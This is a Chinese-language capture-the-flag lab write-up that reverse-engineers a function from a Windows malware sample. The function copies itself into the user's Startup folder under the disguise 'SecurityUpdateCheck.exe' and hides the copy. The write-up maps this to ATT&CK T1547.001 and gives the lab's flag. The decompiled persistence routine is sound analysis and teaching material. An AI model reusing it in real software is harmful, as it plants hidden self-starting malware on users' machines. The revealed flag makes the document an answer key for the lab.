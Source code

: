 ```yaml
---
title: Simple Reverse - 0x16(2023 Lab - WinMalware - sub_140001C80)
tags: [eductf, CTF, Reverse]

category: "Security/Course/NTU CS/Reverse/WinMalware Lab"
---
```


# Simple Reverse - 0x16(2023 Lab - WinMalware - sub_140001C80)
<!-- more -->

## Description
> 分析 eductf-lab.exe 中的 function sub_140001C80 在做什麼，並找出其行為所對應的 MITRE ATT&CK technique ID。
> Flag format: FLAG{T1234.001}

## Background
* [GetModuleFileNameA](https://learn.microsoft.com/zh-tw/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulefilenamea)
* [GetUserNameA](https://learn.microsoft.com/zh-tw/windows/win32/api/winbase/nf-winbase-getusernamea)
* [CopyFileA](https://learn.microsoft.com/zh-tw/windows/win32/api/winbase/nf-winbase-copyfilea)
* [SetFileAttributesA](https://learn.microsoft.com/zh-tw/windows/win32/api/fileapi/nf-fileapi-setfileattributesa)

## Source code
* Main Function
    ```cpp
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      Sleep(0x1B7740u);
      sub_140001C80();
      sub_140001030();
      sub_140001120();
      sub_140001BF0();
      return 0;
    }
    ```
* sub_140001C80
    :::spoiler IDA Source Code
    ```cpp
    DWORD sub_140001C80()
    {
      DWORD result; // eax
      size_t v1; // rax
      DWORD v2; // [rsp+20h] [rbp-258h]
      const CHAR *lpNewFileName; // [rsp+28h] [rbp-250h]
      DWORD pcbBuffer[4]; // [rsp+30h] [rbp-248h] BYREF
      CHAR Buffer[272]; // [rsp+40h] [rbp-238h] BYREF
      CHAR Filename[272]; // [rsp+150h] [rbp-128h] BYREF

      result = GetModuleFileNameA(0i64, Filename, 0x104u);
      v2 = result;
      if ( result )
      {
        result = GetUserNameA(Buffer, pcbBuffer);
        if ( result )
        {
          v1 = pcbBuffer[0] + v2 + 100;
          if ( __CFADD__(pcbBuffer[0], v2 + 100) )
            v1 = -1i64;
          lpNewFileName = (const CHAR *)malloc(v1);
          sub_140001350(
            lpNewFileName,
            v2 + pcbBuffer[0] + 100,
            "C:\\Users\\%s\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\SecurityUpdateCheck.exe",
            Buffer);
          result = CopyFileA(Filename, lpNewFileName, 0);
          if ( result )
            return SetFileAttributesA(lpNewFileName, 0x26u);
        }
      }
      return result;
    }
    ```
    :::

## Recon
:::spoiler IDA sub_14001C80(解析版)
```cpp
DWORD copyfile2startup_setAttribute()
{
  DWORD Result; // eax
  size_t malloc_size; // rax
  DWORD filename_len; // [rsp+20h] [rbp-258h]
  const CHAR *file_new_path; // [rsp+28h] [rbp-250h]
  int username[4]; // [rsp+30h] [rbp-248h] BYREF
  CHAR username_buffer[272]; // [rsp+40h] [rbp-238h] BYREF
  CHAR Filename[272]; // [rsp+150h] [rbp-128h] BYREF

  Result = GetModuleFileNameA(0i64, Filename, 260u);// 取得目前執行程式的名稱
  filename_len = Result;                        // 回傳值為名稱長度
  if ( Result )
  {
    Result = GetUserNameA(username_buffer, username);// 取得使用者名稱
    if ( Result )
    {
      malloc_size = username[0] + filename_len + 100;
      if ( __CFADD__(username[0], filename_len + 100) )
        malloc_size = -1i64;
      file_new_path = malloc(malloc_size);
      sprintf(
        file_new_path,
        filename_len + username[0] + 100,
        "C:\\Users\\%s\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\SecurityUpdateCheck.exe",
        username_buffer);
      Result = CopyFileA(Filename, file_new_path, 0);
      if ( Result )
        return SetFileAttributesA(file_new_path, 0x26u);
    }
  }
  return Result;
}
```
:::
從解析版中開始由上而下可以知道攻擊者的完整意圖
1. 取得目前執行程式的名稱和名稱長度
2. 取得目前執行該程式的使用者名稱
3. 利用(username_length + filename_length + 100)這個大小取得malloc的空間
4. 利用sprintf，讓該空間儲存`C:\\Users\\{username}\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\SecurityUpdateCheck.exe`這個字串
5. 複製目前這個檔案到上一個file path
6. 設定新檔案的屬性(備份檔+隱藏檔+系統檔)

根據以上的流程很明顯他要把檔案放到每次開機都一定會執行的資料夾，並且不想讓使用者察覺到該檔案，所有操作都是為了之後或下一次開機的時候仍然能夠持續執行該程式$\to$Persistent

## Exploit
從ATT&CK的網站可以看到persistence的子頁面出現autostart其實和目前的狀態最吻合，就看他是用甚麼方法達到該目的，從其中的技巧來看會發現有很多種方法可以達到此效果，例如改變機碼或是改變lsass driver之類的，而我們的技巧被歸類在T1547.001
[Att&CK - T1547](https://attack.mitre.org/techniques/T1547/)
Flag: `FLAG{T1547.001}`